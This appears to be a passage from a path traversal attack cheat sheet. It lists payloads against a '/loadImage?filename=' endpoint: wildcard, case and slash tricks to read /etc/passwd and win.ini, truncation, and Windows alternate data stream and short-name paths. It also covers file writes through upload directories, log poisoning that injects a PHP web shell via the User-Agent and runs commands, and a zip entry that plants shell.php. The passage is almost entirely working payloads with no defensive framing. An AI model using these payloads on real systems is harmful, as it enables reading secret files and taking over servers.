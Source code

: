     - **Working with limited character sets**
      - When only alphanumeric characters are allowed:
        - Use of environment variables: `$HOME`, `%SYSTEMROOT%`
        - Using wildcards: `/???/?tc/??ss??` (matching `/etc/passwd`)
      - Example: Using alternative paths like `/proc/self/cmdline`
  
  - **Other bypass techniques**
    
    - **Handling backslash conversions**
      - Using forward/backslash mixing:
        - `/loadImage?filename=..\/..\/..\/etc/passwd`
      - Testing both slash types:
        - `/loadImage?filename=..\..\..\windows\win.ini`
    
    - **Case sensitivity issues**
      - Testing mixed-case paths:
        - `/etc/PASSWD`
        - `/ETC/passwd`
        - `c:\WINDOWS\win.ini`
      - Example: `/loadImage?filename=../../../ETC/PASSwd`
    
    - **Path truncation**
      - Using extremely long paths that get truncated:
        - `/loadImage?filename=../../../etc/passwd/././././.[... many more characters]`
    
    - **Filter evasion with traversal variations**
      - Using forward slashes on Windows:
        - `/loadImage?filename=../../../../../windows/win.ini`
      - Using backslashes on Unix (often interpreted as escape characters):
        - `/loadImage?filename=..\\\\..\\\\..\\\\/etc/passwd`

- **Advanced path traversal techniques**
  
  - **Exploiting path traversal for file writes**
    
    - **Upload functionality**
      - Exploiting file upload paths:
        - `/upload?directory=../../../var/www/html`
      - Example: Uploading webshells to executable directories
    
    - **Log poisoning combined with traversal**
      - Injecting code into logs, then accessing via traversal:
        - Inject PHP code via User-Agent: `<?php system($_GET['cmd']); ?>`
        - Access log via traversal: `/loadImage?filename=../../../var/log/apache2/access.log`
        - Execute commands: `/loadImage?filename=../../../var/log/apache2/access.log&cmd=id`
    
    - **Zip file extraction**
      - Creating zip files with traversal paths in filenames:
        - Zip entry: `../../../var/www/html/shell.php`
        - Contents: `<?php system($_GET['cmd']); ?>`
  
  - **Platform-specific techniques**
    
    - **Windows-specific techniques**
      - Using alternate data streams:
        - `/loadImage?filename=../../../Windows/win.ini:$DATA`
      - Short filename (8.3) notation:
        - `/loadImage?filename=../../../PROGRA~1/MICROS~1/OFFICE~1/WINWORD.EXE`
      - Using reserved device names:
        - `/loadImage?filename=../../../Windows/win.ini..\CON\`
    